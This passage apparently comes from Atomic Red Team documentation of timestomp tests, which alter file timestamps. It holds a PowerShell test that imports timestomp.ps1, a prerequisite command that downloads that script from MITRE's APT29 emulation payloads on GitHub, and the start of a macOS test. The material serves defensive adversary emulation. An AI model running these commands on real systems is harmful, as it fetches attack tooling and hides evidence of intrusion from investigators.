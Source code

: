 



#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| file_path | File path for timestomp payload | string | PathToAtomicsFolder&#92;..&#92;ExternalPayloads|


#### Attack Commands: Run with `powershell`! 


```powershell
import-module "#{file_path}\timestomp.ps1"
timestomp -dest "#{file_path}\kxwn.lock"
```




#### Dependencies:  Run with `powershell`!
##### Description: timestomp.ps1 must be present in #{file_path}.
##### Check Prereq Commands:
```powershell
if (Test-Path "#{file_path}\timestomp.ps1") {exit 0} else {exit 1}
```
##### Get Prereq Commands:
```powershell
Invoke-WebRequest "https://raw.githubusercontent.com/mitre-attack/attack-arsenal/bc0ba1d88d026396939b6816de608cb279bfd489/adversary_emulation/APT29/CALDERA_DIY/evals/payloads/timestomp.ps1" -OutFile "#{file_path}\timestomp.ps1"
```
##### Description: kxwn.lock must be present in #{file_path}.
##### Check Prereq Commands:
```powershell
if (Test-Path -path "#{file_path}\kxwn.lock") {exit 0} else {exit 1}
```
##### Get Prereq Commands:
```powershell
New-Item -Path "#{file_path}\kxwn.lock" -ItemType File
```




<br/>
<br/>

## Atomic Test #9 - MacOS - Timestomp Date Modified
Stomps on the modification timestamp of a file using MacOS's SetFile utility

**Supported Platforms:** macOS

